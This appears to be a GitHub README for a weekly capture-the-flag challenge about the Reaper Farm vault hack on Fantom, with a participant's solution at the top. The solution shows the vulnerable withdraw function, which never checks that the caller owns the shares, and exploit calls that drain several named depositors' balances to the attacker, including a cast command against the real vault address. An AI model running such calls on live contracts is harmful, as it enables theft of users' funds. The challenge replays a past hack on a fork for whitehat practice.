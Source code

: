 # solution - LCFR

wasted much time on trying to find a way to programatically read storage of balance mapping to do this automated. :(

Vulnerable Function: 
```bash
function withdraw(uint256 assets, address receiver, address owner) external nonReentrant returns (uint256 shares) {
        require(assets != 0, "please provide amount");
        shares = previewWithdraw(assets);
        _withdraw(assets, shares, receiver, owner);
        return shares;
}

function _withdraw(uint256 assets, uint256 shares, address receiver, address owner) internal returns (uint256) {
        _burn(owner, shares); // [0] LCFR
        ...
        return assets;
}
```

no validation on msg.sender == owner == rekt

Exploit:
```bash
reaper.withdraw(reaper.maxWithdraw(0xEB7a12fE169C98748EB20CE8286EAcCF4876643b), address(this), 0xEB7a12fE169C98748EB20CE8286EAcCF4876643b);
reaper.withdraw(reaper.maxWithdraw(0x056abd53a55C187d738B4A982D36b4dFa506326A), address(this), 0x056abd53a55C187d738B4A982D36b4dFa506326A);
reaper.withdraw(reaper.maxWithdraw(0x954773dD09a0bd708D3C03A62FB0947e8078fCf9), address(this), 0x954773dD09a0bd708D3C03A62FB0947e8078fCf9);
reaper.withdraw(reaper.maxWithdraw(0xB573f01f2901c0dB3E14Ec80C6E12e4868DEC864), address(this), 0xB573f01f2901c0dB3E14Ec80C6E12e4868DEC864);
reaper.withdraw(reaper.maxWithdraw(0xfc83DA727034a487f031dA33D55b4664ba312f1D), address(this), 0xfc83DA727034a487f031dA33D55b4664ba312f1D);
```

Exploit with cast:
```bash
cast call --rpc-url $RPC --block 44000000 0x77dc33dC0278d21398cb9b16CbFf99c1B712a87A "withdraw(uint256, address, address)" 272475965085592826065349 0x328eBc7bb2ca4Bf4216863042a960E3C64Ed4c10 0xEB7a12fE169C98748EB20CE8286EAcCF4876643b | cast 2d
```

files: 
test/ReaperHack.t.sol - main foundry exploit testcase

reapDeposits.py - an attempt to programattically find all depositors from when deposits started to automatically clear all the contracts held funds.


## welcome to unhacked

_unhacked_ is a weekly ctf, giving whitehats the chance to go back in time before real exploits and recover funds before the bad guys get them. 

_you are a whitehat, right anon?_

## meet reaper

[reaper farm](https://www.reaper.farm/) is a yield aggregator on fantom. their V2 vaults were hacked on 8/2.

there were a number of implementations of the vaults with damages totalling $1.7mm, but the exploit was the same on all of them, so let's just focus on one — a DAI vault hacked for over $400k.

- vault: [0x77dc33dC0278d21398cb9b16CbFf99c1B712a87A](https://ftmscan.com/address/0x77dc33dc0278d21398cb9b16cbff99c1b712a87a)
- fantom dai: [0x8D11eC38a3EB5E956B052f67Da8Bdc9bef8Abf3E](https://ftmscan.com/address/0x8D11eC38a3EB5E956B052f67Da8Bdc9bef8Abf3E)

review the code in this repo, find the exploit, and recover > $400k.

## how to play

1. fork this repo and clone it locally.

2. update the .env file with an environment variable for FANTOM_RPC (already preset to the public RPC endpoint, which should work fine, in which case you can skip this).

3. review the code in the `src/` folder, which contains all the code at the time of the hack. you can explore the state of the contract before the hack using block 44000000. ex: `cast call --rpc-url ${FANTOM_RPC} --block 44000000 0x77dc33dC0278d21398cb9b16CbFf99c1B712a87A "totalAssets()" | cast 2d`

4. when you find an exploit, code it up in `ReaperHack.t.sol`. the test will pass if you succeed.

5. post on twitter for bragging rights and tag [@unhackedctf](http://twitter.com/unhackedctf). no cheating.

## subscribe

for new weekly challenges and solutions, subscribe to the [unhacked newsletter](https://unhackedctf.substack.com/publish/post/69864558).
